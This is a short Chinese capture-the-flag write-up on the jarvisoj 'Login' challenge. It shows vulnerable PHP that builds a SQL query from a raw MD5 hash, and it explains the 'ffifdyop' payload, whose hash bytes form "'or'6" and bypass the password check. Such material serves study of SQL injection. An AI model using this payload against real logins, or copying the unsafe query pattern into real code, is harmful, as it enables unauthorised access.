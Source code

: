 # Challenge 
```php
<?php 
    
error_reporting(0);

$link = mysql_connect('localhost', 'root', '');
if (!$link) { 
    die('Could not connect to MySQL: ' . mysql_error()); 
} 

// 选择数据库
$db = mysql_select_db("test", $link);
if(!$db)
{
    echo 'select db error';
    exit();
}

// 执行sql
$password = $_GET['pwd'];
$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
var_dump($sql);
$result=mysql_query($sql) or die('<pre>' . mysql_error() . '</pre>' );

$row1 = mysql_fetch_row($result);
var_dump($row1);

mysql_close($link);

?>
```

# Solution
sql语句为`"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"`

若md5后的hex转换成字符串后，如果包含`'or'<trash>`这样的字符串，`<trash>`的意思是垃圾值/可忽略

则拼接后构成的语句为：
```
SELECT * FROM admin WHERE pass = ''or'<trash>' 
```

而字符串ffifdyop，md5后，276f722736c95d99e921722cf9ed621c，再转成字符串：`'or'6<trash>`，

拼接后的语句为：
```
SELECT * FROM admin WHERE pass = ''or'6<trash>'
```
成功注入。

payload:
```
?pwd=ffifdyop
```
# Refference 
+ [SQL injection with raw MD5 hashes](https://joychou.org/web/SQL-injection-with-raw-MD5-hashes.html)
+ [jarvisoj : Login](http://web.jarvisoj.com:32772/)
+ [chybeta : Login](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#Login)